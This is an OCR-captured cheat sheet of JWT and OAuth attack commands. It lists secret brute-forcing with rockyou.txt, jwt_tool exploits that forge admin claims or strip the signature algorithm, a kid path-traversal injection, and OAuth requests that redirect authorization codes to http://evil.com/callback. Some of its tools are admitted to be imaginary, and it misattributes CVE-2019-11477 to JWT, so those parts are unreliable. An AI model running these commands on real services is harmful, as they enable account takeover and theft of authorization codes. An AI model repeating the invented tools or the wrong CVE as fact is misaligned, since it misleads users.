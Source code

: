     
    :- Brute force HS256 secret
    crackjwt -t eyJhbGci... -w rockyou.txt -a HS256
    
    :- Test for weak public key in RS256 (e.g. if it's actually the private key)
    crackjwt -t eyJabc... -w wordlist.txt -a RS256 --pubkey public.pem
    -------
    jwt_tool eyJhbGci...
    jwt_tool eyJhbGci... --exploit -X a -pc name -pv admin
    crackjwt -t eyJhbGci... -w rockyou.txt
    crackjwt -t eyJhbGci... -w wordlist.txt -a HS256
    jwt-hack -t token.jwt -m all -o results.txt
    ------
    jwt_tool eyJhbGci... --exploit -X k -kc "" -pc admin -pv true
    jwt_tool eyJhbGci... --exploit -X n -i
    jwt_tool eyJhbGci... --exploit -X s -hs none
    crackjwt -t eyJhbGci... -w /usr/share/wordlists/rockyou.txt -a HS256,RS256 -v
    crackjwt -t eyJhbGci... -k $(cat private.key) -a RS256 -m verify
    jwt-hack -t token.jwt -m all -o results_full.txt -d /usr/share/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt
    jwt-hack -t token.jwt -m alg none -s ""
    jwt-hack -t token.jwt -m kid inject -p '{"kid": "../../evil.jwk"}'
    ------
    jwt_tool eyJhbGci... --exploit -X k -kc " " -pc admin -pv " "
    jwt_tool eyJhbGci... --exploit -X n -i -is none
    jwt_tool eyJhbGci... --exploit -X s -hs HS256 -k ""
    crackjwt -t eyJhbGci... -w /usr/share/wordlists/rockyou.txt -a HS256,RS256,ES256 -v -j 8
    crackjwt -t eyJhbGci... -k $(cat public.key) -a RS256 -m verify -p
    jwt-hack -t token.jwt -m all -o results_very_full.txt -d /usr/share/seclists/Passwords/Common-Credentials/probable-v2-top15.txt -delay 1
    jwt-hack -t token.jwt -m cve-2019-11477 -s '{"alg":"none"}'
    jwt-hack -t token.jwt -m jwk -j $(cat evil.jwk)

### 5.2 OAuth Testing
    :- (Manual testing with Burp Suite is common. Tools can assist.)
    :- For conceptual command, imagine a tool:    
    
    :- Test for common misconfigs
    oauth_scanner -u https://auth.target.com/authorize -c client_id_val -r http://localhost/callback --test misconfigs 
    
    :- Test specific flow
    oauth_scanner -u https://auth.target.com/token -g client_credentials --test open_redirect 
    -----
    oauth2test -u https://target.com/oauth -c client_id -r redirect_uri
    burp-oauth -c config.json -p 8080
    ------
    oauth2test -u https://target.com/oauth/authorize -c client_id -r http://evil.com/callback -s invalid_scope
    oauth2test -u https://target.com/oauth/token -g authorization_code -d "client_id=...&client_secret=...&grant_type=authorization_code&code=..." -m POST
    burp-oauth -c config_full.json -p 8080 -v
    burp-oauth -c implicit_grant.json -p 8081
    ------
    oauth2test -u https://target.com/oauth/authorize -c client_id -r http://evil.com/callback -s openid profile email address -response_type code id_token
    oauth2test -u https://target.com/oauth/token -g authorization_code -d "client_id=...&client_secret=...&grant_type=authorization_code&code=...&redirect_uri=http://evil.com/callback" -m POST -H "Content-Type: application/x-www-form-urlencoded"
    burp-oauth -c config_extensive.json -p 8080 -v -debug
    burp-oauth -c implicit_grant_full.json -p 8081 -intercept
